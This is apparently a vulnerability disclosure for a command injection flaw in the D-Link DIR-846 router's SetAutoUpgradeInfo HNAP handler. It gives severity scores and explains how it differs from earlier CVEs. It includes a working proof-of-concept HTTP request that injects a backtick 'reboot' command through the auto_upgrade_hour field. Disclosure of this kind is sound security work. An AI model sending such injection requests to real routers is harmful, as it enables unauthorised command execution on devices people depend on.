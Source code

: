 # D-Link dir-846 wireless router SetAutoUpgradeInfo command injection vulnerability

## 1. Basic information

- Vulnerability Type: Command Injection
- Vulnerability Description: In D-Link dir-846 wireless router, firmware version A1_FW100A43, there is a command injection vulnerability. Its SetAutoUpgradeInfo component implements a security vulnerability in processing the auto_upgrade_hour parameter, allowing remote attackers to use the vulnerability to submit special requests, resulting in command injection, which can lead to the execution of arbitrary system commands.
- Device model:
  - D-Link dir-846 wireless router
  - Firmware version: A1_FW100A43

## 2. Vulnerability Value

- Maturity of Public Information: None
- Order of Public Vulnerability Analysis Report: None
- Stable reproducibility: yes
- Vulnerability Score (refer to CVSS)
  - V2：[8.5 High AV:N/AC:M/Au:S/C:C/I:C/A:C](https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator?vector=(AV:N/AC:M/Au:S/C:C/I:C/A:C))
  - V3.1：[9.1 High AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H&version=3.1)
- Exploit Conditions
  - Attack Vector Type: Network
  - Attack Complexity: Low
  - Complexity of Exploit
    - Permission Constraints: authentication is required
    - User Interaction: No victim interaction required
  - Scope of Impact: Changed (may affect other components than vulnerable ones)
  - Impact Indicators:
    - Confidentiality: High
    - Integrity: High
    - Availability: High
  - Stability of vulnerability exploitation: Stable recurrence
  - Whether the product default configuration: There are vulnerabilities in functional components that are enabled out of the factory
- Exploit Effect
  - Remote Code Execution (RCE)

## 3. PoC

```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
SOAPACTION: "http://purenetworks.com/HNAP1/SetAutoUpgradeInfo"
HNAP_AUTH: 11583A1E429EF67F912D6EE6D079E244 1666080008220
Content-Length: 88
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/Parentcontrol.html?t=1666079999406
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D; SESSION_ID=2:1598955110:2; uid=57XIVmwX; PrivateKey=BE92EF6F235196D24907CBEE3556D5ED; timeout=97; PHPSESSID=1265348da22b64f02a23502dddc0772e
Cache-Control: max-age=0

{"SetAutoUpgradeInfo":{"auto_upgrade_hour":"`reboot`"}}
 ```

## 4. Vulnerability Principle

When the Web management component receives a POST request, its SetAutoUpgradeInfo component implements a security vulnerability in processing the auto_upgrade_hour parameter, and the auto_upgrade_hour parameter is concatenated to execute the command. Such carefully crafted parameters lead to command injection. Attackers can use this vulnerability to directly achieve the effect of remote arbitrary command execution.

See the figure below for the auto_upgrade_hour parameter location: ![auto_upgrade_hour](./imgs/1.png)

## 5. The basis for judging as a 0-day vulnerability

### 1. Not the same vulnerability as CVE-2021-46314 and CVE-2021-46315

Search the dir-846 keyword in the NVD database and find the vulnerabilities CVE-2021-46314 and CVE-2021-46315. Refer to the github warehouse information that disclosed the vulnerability: https://github.com/doudoudedi/DIR-846_Command_Injection/blob/main/DIR-846_Command_Injection1.md, the trigger code of this vulnerability is located in `SetMasterWLanSettings` and `SetNetworkTomographySettings`, the location The location of the code triggering this vulnerability is different, so it is not the same vulnerability.

### 2. Keyword search

Using `SetAutoUpgradeInfo` as a keyword to search the NVD database, there is no query result.
